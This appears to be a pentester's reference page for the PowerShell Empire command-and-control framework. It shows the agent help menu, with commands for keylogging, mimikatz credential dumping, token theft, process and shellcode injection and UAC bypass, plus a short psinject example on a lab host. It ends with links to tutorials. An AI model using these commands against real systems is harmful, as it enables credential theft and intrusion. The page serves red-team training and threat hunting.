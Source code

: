 # Interactive Shell

## 01 - Help Menu

```
(Empire: agents) > interact WindowsWS01
(Empire: WindowsWS01) > help

┌Help Options────┬─────────────────────────────────────┬───────────────────────────────┐
│ Name           │ Description                         │ Usage                         │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ display        │ Display an agent property           │ display <property_name>       │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ download       │ Tasks an the specified agent to     │ download <file_name>          │
│                │ download a file.                    │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ help           │ Display the help menu for the       │ help                          │
│                │ current menu                        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ history        │ Display last number of task results │ history [<number_tasks>]      │
│                │ received.                           │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ info           │ Display agent info.                 │ info                          │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ killdate       │ Set an agent's killdate             │ killdate <kill_date>          │
│                │ (01/01/2020)                        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ proxy          │ Proxy management menu for           │ proxy                         │
│                │ configuring agent proxies           │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ script_command │ "Execute a function in the          │ shell_command <script_cmd>    │
│                │ currently imported PowerShell       │                               │
│                │ script."                            │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ script_import  │ Uploads a PowerShell script to the  │ script_import                 │
│                │ server and runs it in memory on the │ <local_script_location>       │
│                │ agent. Use '-p' for a file          │                               │
│                │ selection dialog.                   │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ shell          │ Tasks an the specified agent to     │ shell <shell_cmd>             │
│                │ execute a shell command.            │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ sleep          │ Tasks an the specified agent to     │ sleep <delay> <jitter>        │
│                │ update delay (s) and jitter (0.0 -  │                               │
│                │ 1.0)                                │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ update_comms   │ Update the listener for an agent.   │ update_comms <listener_name>  │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ upload         │ Tasks an the specified agent to     │ upload <local_file_directory> │
│                │ upload a file. Use '-p' for a file  │                               │
│                │ selection dialog.                   │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ view           │ View specific task and result       │ view <task_id>                │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ vnc            │ Launch a VNC server on the agent    │ vnc                           │
│                │ and spawn a VNC client              │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ vnc_client     │ Launch a VNC client to a remote     │ vnc_client <address> <port>   │
│                │ server                              │ <password>                    │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ workinghours   │ Set an agent's working hours        │ workinghours <working_hours>  │
│                │ (9:00-17:00)                        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ whoami         │ Tasks an agent to run the shell     │ whoami                        │
│                │ command 'whoami'                    │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ ps             │ Tasks an agent to run the shell     │ ps                            │
│                │ command 'ps'                        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ sc             │ Tasks the agent to run module       │ sc                            │
│                │ powershell/collection/screenshot.   │                               │
│                │ Default parameters include: Ratio:  │                               │
│                │ 80                                  │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ keylog         │ Tasks the agent to run module       │ keylog                        │
│                │ powershell/collection/keylogger.    │                               │
│                │ Default parameters include: Sleep:  │                               │
│                │ 1                                   │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ sherlock       │ Tasks the agent to run module       │ sherlock                      │
│                │ powershell/privesc/sherlock.        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ mimikatz       │ Tasks the agent to run module power │ mimikatz                      │
│                │ shell/credentials/mimikatz/logonpas │                               │
│                │ swords.                             │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ psinject       │ Tasks the agent to run module       │ psinject <Listener> <ProcId>  │
│                │ powershell/management/psinject.     │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ revtoself      │ Tasks the agent to run module       │ revtoself                     │
│                │ powershell/credentials/tokens.      │                               │
│                │ Default parameters include:         │                               │
│                │ RevToSelf: True                     │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ shinject       │ Tasks the agent to run module       │ shinject <Listener> <ProcId>  │
│                │ powershell/management/shinject.     │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ spawn          │ Tasks the agent to run module       │ spawn <Listener>              │
│                │ powershell/management/spawn.        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ steal_token    │ Tasks the agent to run module       │ steal_token <ProcessID>       │
│                │ powershell/credentials/tokens.      │                               │
│                │ Default parameters include:         │                               │
│                │ ImpersonateUser: True               │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ bypassuac      │ Tasks the agent to run module power │ bypassuac <Listener>          │
│                │ shell/privesc/bypassuac_eventvwr.   │                               │
└────────────────┴─────────────────────────────────────┴───────────────────────────────┘

(Empire: WindowsWS01) >
```

## 02 - Usage

### 2.1 - Process Manipulation

`(Empire: WinWS01Admin) > psinject <listener> <pid>`

```
(Empire: WinWS01Admin) > psinject http_80 460
[*] Tasked admin to run Task 3
[+] New agent F38APL75 checked in
[*] Sending agent (stage 2) to F38APL75 at 10.0.2.4
(Empire: WinWS01Admin) > interact F38APL75
```

---
## References

*  [Beginning Powershell Empire Attack](https://www.securitynik.com/2022/02/beginning-powershell-empire-attack-in.html)

* [HackMag Powershell Empire Modules](https://hackmag.com/security/powershell-empire/)

* [Empire For Pentester Active Directory Enumeration](https://www.hackingarticles.in/empire-for-pentester-active-directory-enumeration/)

* [Powershell Empire For Pentester Mimikatz Module](https://www.hackingarticles.in/powershell-empire-for-pentester-mimikatz-module/)

* [OSX Exploitation with Powershell Empire](https://www.hackingarticles.in/osx-exploitation-with-powershell-empire/)

* [Hacking with Empire Powershell Post Exploitation Agent](https://www.hackingarticles.in/hacking-with-empire-powershell-post-exploitation-agent/)

* [Data Exfiltration Using Powershell Empire/](https://www.hackingarticles.in/data-exfiltration-using-powershell-empire/)

* [Part 2 Intro to Threat Hunting Understanding the Attacker Mindset with Powershell Empire and the Mandiant Attack Lifecycle](https://holdmybeersecurity.com/2020/01/23/part-2-intro-to-threat-hunting-understanding-the-attacker-mindset-with-powershell-empire-and-the-mandiant-attack-lifecycle/)

* [Command and Control with Powershell Empire part 1](https://www.snaplabs.io/insights/command-and-control-with-powershell-empire-pt1)

* [Command and Control with Powershell Empire part 2](https://www.snaplabs.io/insights/command-and-control-with-powershell-empire-pt2)

* [Command and Control with Powershell Empire part 3](https://www.snaplabs.io/insights/command-and-control-with-powershell-empire-pt3)

* [Lateral Movement Methods and Good Practices](https://www.snaplabs.io/insights/lateral-movement-methods-and-good-practices)

* [Empire Module Library](https://www.infosecmatter.com/empire-module-library/)